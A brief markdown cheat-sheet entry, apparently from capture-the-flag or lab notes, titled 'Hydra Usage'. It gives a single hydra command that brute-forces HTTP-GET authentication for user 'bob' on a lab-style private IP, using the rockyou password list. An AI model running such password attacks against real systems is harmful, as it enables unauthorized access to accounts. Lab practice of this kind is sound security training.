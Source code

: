 # Hydra Usage

## HTTP-GET
```
hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.71.162 http-get /protected
```